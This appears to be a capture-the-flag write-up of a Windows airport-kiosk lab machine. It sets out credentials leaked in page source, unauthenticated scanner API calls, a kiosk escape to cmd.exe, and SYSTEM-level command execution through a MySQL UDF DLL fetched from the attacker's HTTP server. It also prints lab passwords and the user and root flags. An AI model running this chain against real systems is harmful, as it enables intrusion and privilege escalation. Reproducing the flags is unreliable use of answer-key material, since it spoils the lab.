

### 3.1 The `/settings` page reveals the API endpoints

With the session cookie added in Burp Repeater, I request `GET /settings`. The page does not display any new passwords, but its embedded JavaScript reveals the actual endpoints accepted by the API:

```
POST   /api/scan
PUT    /api/scanner/settings
POST   /api/scanner/test-image
DELETE /api/scanner/test-image
PUT    /api/printer/settings
```



This type of information disclosure is common: the JavaScript downloaded by the browser to provide the interface's button functionality unintentionally contains the API map, including paths that the user never actually clicks.

### 3.2 The `/scanner` page exposes embedded credentials

Following the same procedure with `GET /scanner`, I find credentials hidden behind dots in the interface but visible in the HTML source:

```
Username:   KioskUser
Password:   K!0sk2026#
```



This is a known issue called **hardcoded secrets**: a credential that should remain on the server ends up being sent to the browser because it was included in the HTML or JavaScript instead of being kept in the backend. The page also lists hardware-administration endpoints (`power`, `calibrate`, `test-image`, among others). The most relevant one is `POST /api/scanner/test-image`, which, according to the code itself, accepts a direct file upload:

```js
fetch('/api/scanner/test-image', {
    method: 'POST',
    body: input.files[0]
})
```

Any endpoint that accepts files without further validation is, by nature, an attack surface worth reviewing.

---
## 4. Access-control failure in the scanner API

With the authenticated session still active, I first test the “Test Scan” action in the `/scanner` interface, which internally triggers `POST /api/scan`. At that point, there is no document on the scanner glass, and the API reflects this with `documentDetected:false`.


Next, from the same interface, I send a `POST /api/scanner/test-image` request without an attached file, and repeat it in Burp Repeater. The server responds with `400 Bad Request`, stating that the image must be between 100 bytes and 10 MB, confirming that the endpoint validates at least the size of the received content.


Next, I upload an actual test image using the interface button. The server stores it and returns it at `/api/scanner/test-image/preview`.

To inspect the response, I select `GET /api/scanner/test-image/preview` in Burp's history and send it to Repeater. There, I notice an inconsistency: the header declares `Content-Type: image/jpeg`, but the body begins with the signature of a PNG file (`89 50 4E 47`). The response is 15,872 bytes long.




I also check `GET /api/scan/last-capture`, which returns the same size (15,872 bytes) and the same declared content type. This confirms that the interface's “Test Scan” action reuses the uploaded image as the latest capture. The mismatch between the declared type and the actual content suggests weak validation, although it is not exploitable on its own at this stage.

### 4.1 Checking access control without a session cookie

The usual test for detecting access-control failures is to repeat each authenticated request after removing the session cookie and check whether the server still accepts it. In Burp Repeater, I remove the `Cookie` header and repeat the two previous requests:

```
GET /api/scan/last-capture HTTP/1.1
Host: 10.129.160.249:8443
Connection: close
```

```
GET /api/scanner/test-image/preview HTTP/1.1
Host: 10.129.160.249:8443
Connection: close
```




| Endpoint                              | Without cookie | With cookie    |
| ------------------------------------- | -------------- | -------------- |
| `GET /api/scan/last-capture`          | 200 OK + image | 200 OK + image |
| `GET /api/scanner/test-image/preview` | 302 → `/login` | 200 OK + image |
The result shows that `/api/scan/last-capture` responds identically with or without a session, while its corresponding endpoint, `/api/scanner/test-image/preview`, does require authentication.

### 4.2 Confirming that an action can also be triggered without authentication

Checking whether data can be read without authentication is not enough: I also test whether it is possible to trigger an action on the device. In Burp Repeater, without a cookie, I send:

```
POST /api/scan HTTP/1.1
Host: 10.129.160.249:8443
Content-Length: 0
Connection: close
```
  
```json
{"success":true,"documentDetected":true,"image":"/api/scan/last-capture","message":"Document detected"}
```


The server accepts the request and returns a positive result without requiring any credentials. This confirms a **broken access control** vulnerability, one of the most common categories of web application vulnerability and ranked first in the OWASP Top 10. In short, anyone can instruct the physical scanner to capture a document and then download the resulting image without needing a password.

I also verify that the other hardware actions are correctly protected. Repeating `POST /api/scanner/test-image` without a cookie once again results in a redirect to `/login`:


The same happens with `POST /api/scanner/power`:


| Endpoint                              | Without a session                            |
| ------------------------------------- | -------------------------------------------- |
| `GET /api/status`                     | Accessible (exposes device information only) |
| `POST /api/scan`                      | Accessible without authentication            |
| `GET /api/scan/last-capture`          | Accessible without authentication            |
| `GET /api/scanner/test-image/preview` | Protected                                    |
| `POST /api/scanner/test-image`        | Protected                                    |
| `POST /api/scanner/power`             | Protected                                    |
Finally, I check `GET /api/status` again. It also responds without authentication, but only exposes device-identification data (model, firmware, serial number, uptime), providing no additional information of interest.


The access-control failure is therefore limited to two specific endpoints (`POST /api/scan` and `GET /api/scan/last-capture`); it does not affect the entire API. The other routes reviewed under Target → Site map and Proxy → HTTP history in Burp do require the session cookie.

### 4.3 Checking routes related to the badge reader

The login screen offered an alternative way to access the panel through “Staff Badge” (`/login/badge`), and the check-in kiosk includes an equivalent “Scan Badge” option. I investigate whether DeviceHub exposes a similar endpoint under `/api` that might connect the two flows. In Burp Repeater, I test three candidate paths without a session cookie:

```
GET /api/badge HTTP/1.1
GET /api/scanner/badge HTTP/1.1
GET /api/scan/badge HTTP/1.1
```

Only `/api/badge` returns something other than a simple “not found”: it returns `302 Found` with `Location: /login`, the same behavior as routes protected by a session. The other two do not correspond to real endpoints.

```
GET /api/badge HTTP/1.1
Host: 10.129.160.249:8443
Connection: close

HTTP/1.1 302 Found
Location: /login
```

I plan to repeat the same request with a valid session cookie to see what `/api/badge` returns after authentication. That specific check remains pending: the investigation shifts to trying the leaked credentials against RDP and WinRM, which seems like a more direct path to the operating system, and the authenticated `/api/badge` route is never reviewed.

---
## 5. Pivoting to the check-in kiosk

The panel contains a link labeled “Return to Kiosk” pointing to `http://localhost:5173`. This indicates that DeviceHub on port 8443 is only the hardware administration panel, while the passenger-facing application runs on another port and is accessible only from within the machine itself.

I try to access `http://10.129.160.249:5173` from outside, but the connection does not respond, confirming that this service is not externally exposed.

### 5.1 Testing the scanner credentials against WinRM

I check whether `KioskUser / K!0sk2026#` (the credentials exposed on `/scanner`) allow access to the operating system, rather than just to the web panel. First, I verify that the port is actually reachable:

```
Test-NetConnection -ComputerName 10.129.160.249 -Port 5985
TcpTestSucceeded : True
```

With the port confirmed, I attempt to authenticate using `Test-WSMan` with the `Negotiate` mechanism, which fails with error code `0x8009030e`. This error can be caused by either incorrect credentials or a problem with the authentication mechanism itself, so it is not enough to rule out the credentials on its own.


Next, I try the `Basic` mechanism:

```
Test-WSMan 10.129.160.249 -Authentication Basic -Credential $cred
```


The WinRM client rejects it immediately because, by default, it does not allow unencrypted traffic. I explicitly enable it from a PowerShell console with administrator privileges:

```
Set-Item WSMan:\localhost\Client\AllowUnencrypted -Value $true
Get-Item WSMan:\localhost\Client\AllowUnencrypted
```

When the first command runs, PowerShell asks for permission to start the local WinRM service (required to apply the change), and the subsequent check confirms the value is `True`. I then repeat `Enter-PSSession` with `-Authentication Basic`, and the remote server returns a different error: because Kerberos is not being used and the machine is not joined to a domain, the destination IP must be added to the client's trusted hosts (`TrustedHosts`).

```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value "10.129.160.249" -Force
Get-Item WSMan:\localhost\Client\TrustedHosts
```

With the host added to `TrustedHosts`, I try the connection again using `-Authentication Basic`. This time, the remote server returns a different error: it explicitly states that the `Basic` authentication mechanism is not enabled in its configuration, and that the only mechanism it accepts is `Negotiate`. I then try `Negotiate` again with `TrustedHosts` configured, but authentication still does not complete: the scanner credentials are not valid for logging in over WinRM using any of the mechanisms tested.

### 5.2 Access via RDP

I test the same credentials against port 3389 using the Windows Remote Desktop client:

```
mstsc /v:10.129.160.249
```







RDP access does work, but the session does not show a conventional Windows desktop: it launches a full-screen kiosk application (the check-in software) with no access to the taskbar. This behavior corresponds to a kiosk mode configured in Windows, where logging in with a specific user automatically launches a single locked-down application. The account selector shows that an `Administrator` account also exists on the system, but it is unreachable while the session remains confined to the kiosk.

I try specifying the username directly on the `mstsc` command line (`mstsc /v:10.129.160.249 .\Airport Kiosk`), but the Remote Desktop client does not accept the username that way: the window opens without applying any credentials. I then try forcing the credentials dialog with `mstsc /v:10.129.160.249 /prompt`, intending to use the “Use another account” option to enter `.\Administrator` manually, but that option is not available on the RDP login screen: the session always starts automatically with the `Airport Kiosk` account and launches the kiosk application directly. From within the session, `Ctrl+Alt+End` (the remote equivalent of `Ctrl+Alt+Del`) also produces no visible response. I additionally check the stored credentials list (`cmdkey /list`) on the attacking machine and try `mstsc /v:10.129.160.249 /admin` to force a separate administrative session; neither approach opens a session other than the kiosk. I therefore abandon attempts to switch accounts within the RDP session and focus the investigation on the kiosk software itself.

---
## 6. Escaping kiosk mode

With administrative control over the scanner hardware from the panel on port 8443, I decide to use that control to deliberately trigger an error in the kiosk application: from the DeviceHub panel, I turn off the scanner (`POST /api/scanner/power`, authenticated with the panel's session cookie).


Next, within the RDP session, I restart the kiosk application from the beginning of the check-in process: I enter the surname and booking reference obtained on the Layover machine (Jenny Crawford / KS7X2M), which lets me advance to the next wizard tab, where the travel document is verified. That tab automatically attempts to scan the passport or boarding pass using the same physical scanner that was just powered off through DeviceHub.




The device failure opens an error window containing a support link. The observed sequence from that point is as follows:

```
Surname + booking reference entered in the kiosk
      ↓
Advance to the travel-document verification tab
      ↓
That tab tries to scan the document (scanner already powered off)
      ↓
The backend receives a device error
      ↓
The error message includes a link
      ↓
The link opens a browser outside the kiosk
      ↓
Ctrl+O opens the Windows file picker
      ↓
In the file picker, navigate to C:\Windows\System32 and locate cmd.exe
      ↓
Run cmd.exe directly from the file picker
      ↓
A working command prompt opens as KioskUser
```


The command prompt confirms that I have escaped the kiosk's restricted interface. The `whoami` command identifies the current account; this does not yet mean I have administrator privileges.


From the console obtained by escaping the kiosk application, I access the `KioskUser` desktop and check the contents of `user.txt`. Reading the file retrieves the machine's user flag.


**User flag:** `315f8dd7580302fcdddd616fa6ebbddc`

This technique takes advantage of a common flaw in kiosk applications: any secondary window that the software has not explicitly blocked (an error dialog with a link, a file picker) can become an escape route to the full operating system, since the full-screen application is still running on top of a functional Windows installation underneath.

---
## 7. Privilege escalation: from KioskUser to SYSTEM via MySQL

With a working console as `KioskUser`, I proceed with local system enumeration.


I start with the airline application's own configuration folder:

```
dir "C:\ProgramData\HTB Airways" /s /b
type "C:\ProgramData\HTB Airways\db-config.ini"
```


I supplement this with a targeted search for credentials in MySQL configuration files:

```
findstr /si password C:\MySQL\*.ini C:\MySQL\*.cnf
findstr /si password "C:\Program Files\MySQL\*.ini" "C:\Program Files\MySQL\*.cnf" 2>nul
```

I also review the application's own scripts that might reference the database:

```
type "C:\ProgramData\HTB Airways\db-sync-replica.ps1"
type "C:\ProgramData\HTB Airways\refresh-dates.bat"
```


The `db-sync-replica.ps1` script cannot be read with `KioskUser` permissions because the system returns `Access is denied`. However, `refresh-dates.bat` can be inspected, and it contains a call to the MySQL client using the `root` account and a password written directly on the command line:

```cmd
C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 < "...\refresh-dates.sql" 2>nul
```

The password is therefore obtained **from the script itself**, `**refresh-dates.bat**`, not from a brute-force attack or the output of `findstr`. The script uses it to run a database maintenance task, but leaves it stored in plaintext, allowing it to be recovered with `KioskUser`'s read permissions.

The identified credentials are:
- **Username:** `root`
- **Password:** `HTB@irw4ys_DB!2026`
- **Database:** `htb_airways`

With these credentials, I can access MySQL and check whether the account has privileges that allow actions outside the database.

### 7.1 MySQL root user privileges

When querying the privileges of MySQL accounts, I find that `root` has both `Grant_priv` and `File_priv` enabled:

```sql
SELECT user,host,Grant_priv,File_priv FROM mysql.user;
```


```
File_priv: Y
```

The `FILE` privilege allows MySQL to read or write certain system files. However, this permission alone does not allow Windows commands to be executed.

To achieve that, I take advantage of another MySQL feature called a UDF. A UDF allows new functions to be added to MySQL through an external library, in this case a DLL file. The library used, `lib_mysqludf_sys_64.dll`, includes the `sys_eval()` function, which allows operating-system commands to be executed from an SQL query.

To use it on this machine, two things are needed: the DLL must be placed in MySQL's plugins directory, and the MySQL account must have enough privileges to register the function.

### 7.2 Write permissions on the plugins directory

The second required condition is that MySQL's plugins directory must be writable. To check whether the DLL can be copied into the plugins directory, I inspect its permissions:

```cmd
icacls "C:\MySQL\lib\plugin"
```


Checking the NTFS permissions on `C:\MySQL\lib\plugin` confirms that the `Authenticated Users` group (any authenticated system user, including `KioskUser`) has modify (`M`) permission on that folder.

This is an incorrect configuration: that directory should be writable only by the MySQL service itself or by an administrator, not by any authenticated user.

The result reveals a permissions issue: `KioskUser` can modify a folder that MySQL uses to load its libraries. This means the user can place a DLL there without needing a Windows administrator account.

The escalation relies on combining that write permission with the MySQL `root` credentials found in `refresh-dates.bat`. After copying the DLL into the directory, I register the `sys_eval()` function through MySQL and use it to run Windows commands with the privileges of the account running the service.

### 7.3 Loading the UDF DLL and executing commands as SYSTEM

After confirming that `KioskUser` can write to MySQL's plugins directory (`FILE_priv Y`), I prepare the UDF library (`lib_mysqludf_sys_64.dll`). This DLL provides the `sys_eval()` function, which allows operating-system commands to be run from MySQL.

First, I check which libraries are in the plugins directory to verify that the DLL I intend to use is not already present.


I serve `lib_mysqludf_sys_64.dll` from the attacking machine using a temporary HTTP server (`python -m http.server 8000`). From the target machine, I use `certutil` to download the DLL and save it in `C:\MySQL\lib\plugin`.


I then register the custom function:

```sql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';
```

The first attempt fails because the `htb_airways` database was not explicitly selected before running the command. When I try again, the terminal displays a long list of the `mysql.exe` client's own variables and configuration options instead of an error message: this happens because that attempt left the client in an interactive session (the `mysql>` prompt), rather than running the statement as a single line with the `-e` parameter, and what appears on screen is the client's variable help, not the result of `CREATE FUNCTION`. I identify the problem by recognizing the `mysql>` prompt, exit the interactive session using `exit`, and run the command correctly as a single line from `C:\MySQL\lib\plugin>`, this time selecting the `htb_airways` database. The function is registered successfully and then executed:

```sql
SELECT sys_eval('whoami');
```


### 7.4 Decoding the result

MySQL returns some results in hexadecimal when the data type is not explicitly defined. Rather than decoding it manually, I use a PowerShell one-liner that iterates over pairs of digits and converts each pair to its ASCII character:

```powershell
powershell -Command "$h='6E7420617574686F726974795C73797374656D'; $b=New-Object System.Collections.Generic.List[byte]; for($i=0;$i -lt $h.Length;$i+=2){$b.Add([Convert]::ToByte($h.Substring($i,2),16))}; [Text.Encoding]::ASCII.GetString($b.ToArray())"
```


The result confirms that the MySQL service, and therefore any command executed through `sys_eval()`, runs under the `SYSTEM` account, the highest privilege level in Windows, even above Administrator.

### 7.5 Locating and reading the root flag

With command execution as SYSTEM, I locate the Administrator account's desktop:

```
mysql.exe -u root -p"HTB@irw4ys_DB!2026" htb_airways -e "SELECT CONVERT(sys_eval('dir C:\\Users\\Administrator\\Desktop') USING utf8mb4);"
```

Wrapping the call in `CONVERT(... USING utf8mb4)` makes MySQL return the result directly as readable text, avoiding the need to decode hexadecimal manually for each query. After finding `root.txt` in the listing, I read it using the same procedure:

```
mysql.exe -u root -p"HTB@irw4ys_DB!2026" htb_airways -e "SELECT CONVERT(sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt') USING utf8mb4);"
```


**Root flag:**

```
5bc7ce3cc8f213f08e47ffb1e2c63507
```

**MySQL credentials used for privilege escalation:**

```
Username:  root
Password:  HTB@irw4ys_DB!2026
Database:  htb_airways
```

---
## 8. Summary of the exploitation chain

1. The Nmap scan identifies RPC (135), RDP (3389), WinRM (5985), and a custom web panel (8443).

2. Web enumeration with the help of Burp Suite reveals that the CSS from `/login` exposes the existence of a full administration panel. An unauthenticated endpoint leaks the device serial number, which turns out to be the default password mentioned on the login page itself.

3. Access to the panel using the serial number makes it possible to obtain the API endpoints through `/settings` and `/scanner`, as well as service credentials (`KioskUser / K!0sk2026#`).

4. Replaying API requests in Burp Repeater after removing the session cookie from each request reveals an access-control failure: `POST /api/scan` and `GET /api/scan/last-capture` are accessible without any authentication.

5. The leaked credentials do not work against WinRM, but they do allow RDP access, although it is restricted to a kiosk application.

6. Turning off the scanner from the DeviceHub panel causes an error in the kiosk application that eventually opens a command prompt (`cmd.exe`).

7. Local enumeration reveals MySQL credentials; the `root` user has `FILE_priv`, and the plugins directory is writable by any authenticated user. This makes it possible to load a UDF DLL and execute commands as `NT AUTHORITY\SYSTEM`, which are then used to read the root flag.

**Root flag:** `5bc7ce3cc8f213f08e47ffb1e2c63507`

---
## 9. Lessons learned and root causes

- **Sensitive information exposed without authentication.** The device serial number, which also served as its password, could be retrieved from an open endpoint. Using an almost-public value as the only secret is a fragile design in itself.

- **Secrets embedded in client-side code.** Credentials and API paths ended up in the HTML and JavaScript downloaded by the browser, where anyone reviewing the page source could see them.

- **Inconsistent API access control.** Some endpoints checked the session while others with equivalent functionality did not: the classic mistake of protecting one route and forgetting its counterpart.

- **Insufficiently restricted kiosks.** An unhandled hardware error opened a window into the full operating system behind an application intended to be completely locked down. Any system dialog (file-open dialog, help link) can be a potential escape route in this type of environment.

- **Overly permissive NTFS permissions.** Granting “Authenticated Users” write access to a sensitive database-engine folder turns any low-privileged account into a direct path to SYSTEM-level privilege escalation.

---
## 10. Conclusions

Throughout the machine, I followed the clues I found in the application rather than trying random passwords. The message on the login page helped me start looking for credentials. Each time I gained access to a new part of the application, I reviewed its code and JavaScript to see what it could do and which weaknesses I could test. I also used Burp Repeater to test the different endpoints and check which ones required a login and which ones worked without one.

Not every test worked. The scanner credentials did not let me log in through WinRM, even though the port was open. With RDP, I also failed to escape the kiosk by using another account, keyboard shortcuts, or the `mstsc` `/admin` parameter. I also tried the `/api/badge`, `/api/scanner/badge`, and `/api/scan/badge` paths, but could not access them. Only `/api/badge` existed, and it required authentication. During MySQL privilege escalation, the first attempt to register the UDF also failed. I fixed it by selecting the `htb_airways` database and running the query in a single command.

Turning off the scanner let me try a different approach. Instead of continuing to try uploading files, I checked what happened when the kiosk attempted to use a powered-off scanner. The resulting error allowed me to open a browser outside the application and, from there, reach a command prompt. To gain administrator-level privileges, I reviewed configuration files and maintenance scripts instead of trying to guess the MySQL password. That is how I found the `root` user's password written in the `refresh-dates.bat` file.

---
## 11. Test log: what worked and what did not

This section summarizes the tests I performed on the machine. I indicate which ones helped me progress, which did not work, and which I could not confirm. This lets me review the investigation without repeating every step already explained above.
### Tests that worked

| Test | Result | What it allowed us to conclude |
|---|---|---|
| Nmap port scan (`-sC -sV`, followed by `-p-`) | **Worked** | Ports 135, 3389, 5985, and 8443 were identified; no other open TCP ports appeared in the full scan. |
| Accessing the web service over HTTP on port 8443 | **Worked** | The Nexion DeviceHub login page was reached. In the tests performed, the service speaks plain HTTP even though the port is commonly associated with HTTPS. |
| Reviewing `/login` responses with Burp | **Worked as reconnaissance** | The `admin` password did not grant access, but the HTML revealed the hint that the default password was the device serial number. |
| Requesting `GET /api/status` without a cookie | **Worked** | The response exposed the model, serial number, and firmware version. The serial found was `NX-DH-2024-B7042`. |
| Logging in with the serial as the password | **Worked** | Access was gained to the DeviceHub panel and its internal pages. |
| Reviewing `/settings` and `/scanner` after logging in | **Worked** | API paths were discovered, along with the credentials `KioskUser / K!0sk2026#` embedded in the content sent to the browser. |
| Replaying API requests without the session cookie | **Worked for identifying the flaw** | `POST /api/scan` and `GET /api/scan/last-capture` responded without authentication; other tested routes did require a session. |
| RDP connection using the leaked credentials | **Worked, with limitations** | A session was established, but Windows opened the kiosk application directly instead of a normal desktop. |
| Using the Layover booking information in the kiosk | **Worked** | The surname `Crawford` and reference `KS7X2M` made it possible to advance to document verification. |
| Turning off the scanner through DeviceHub | **Worked** | The kiosk application encountered an error when attempting to scan the document. That error opened a way to escape kiosk mode. |
| Opening the file picker and running `cmd.exe` | **Worked** | A command prompt was obtained as the low-privileged user `KioskUser`. |
| Finding the MySQL credentials and connecting as `root` | **Worked** | The `htb_airways` database could be queried, and the MySQL user's privileges could be checked. |
| Checking `FILE_priv` and permissions on `C:\MySQL\lib\plugin` | **Worked** | It was confirmed that MySQL had the `FILE` privilege and that `Authenticated Users` could modify the plugins directory. |
| Downloading and registering `lib_mysqludf_sys_64.dll` | **Worked after correcting the first attempt** | The DLL became available to MySQL, and the `sys_eval` function could be registered. |
| Running `SELECT sys_eval('whoami');` | **Worked** | The decoded result was `nt authority\system`, confirming command execution as SYSTEM. |
| Reading `root.txt` through `sys_eval` | **Worked** | The root flag was obtained, completing the exploitation chain. |

### Tests that failed or did not produce the intended result


| Test | Result | Why this path was not pursued further |
|---|---|---|
| Logging in with the password `admin` | **Failed** | The application returned an invalid-password response. It helped reveal the response behavior but did not grant access. |
| Badge authentication via `POST /login/badge` | **Failed** | The server responded with `No badge detected`; no physical badge was available to use this method. |
| Checking common paths with `http-enum` | **No useful findings** | No additional paths were found by that test. This does not prove there are no hidden paths; only that this scan did not find them. |
| Connecting to port 8443 as if it were HTTPS | **Failed** | TLS negotiation attempts did not work. Later tests indicated that the service responded over plain HTTP. |
| Accessing protected paths such as `/dashboard`, `/devices`, or `/logs` without a session | **Did not grant access** | The responses redirected to `/login`. This does not prove that the routes do not exist; it only means they could not be accessed directly without authenticating. |
